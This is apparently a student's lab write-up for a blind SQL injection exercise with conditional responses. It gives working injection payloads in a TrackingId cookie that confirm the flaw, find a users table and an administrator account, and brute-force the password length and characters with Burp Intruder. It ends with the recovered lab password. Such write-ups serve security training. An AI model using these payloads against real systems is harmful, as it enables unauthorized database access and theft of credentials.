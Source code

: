 Lab 11 - Blind SQL injection with conditional responses

## 1) Confirm that the parameter is vulnerable to blind SQLi
testing for response with welcome back massage
by payload

TrackingId=1k2UOfwhpyOj77BA' and 1=1--

the massgae come back that means that the parameter is vulnerable to blind SQLi

## 2) Confirm that we have a users table
using payload
trackingId = '1k2UOfwhpyOj77BA' and (select 'x' from users LIMIT 1)='x'--'

the massgae come back that means that the users table is in database

## 3) Confirm that username administrator exists users table
using payload
' and (select username from users where username='administrator')='administrator'--'

the massgae come back that means that the users administrator is in database

## 4) knowing  the password length of the administrator user
using payload with burp intruder to bruteforce the length of password
' and (select username from users where username='administrator' and LENGTH(password)>19)='administrator'--'

i found password is 20 characters

5) brute force the password
using burp intruder to brute force the characters
with two payloads one on the character index and one on every character to guess it
and filter for welcome word
' and (select substring(password,2,1) from users where username='administrator')='a'--'

![image](https://github.com/user-attachments/assets/5bb4a248-13f5-4a95-bb7b-98df308d0478)
the password is
r3s1k6jwbwn9qu94h4qm

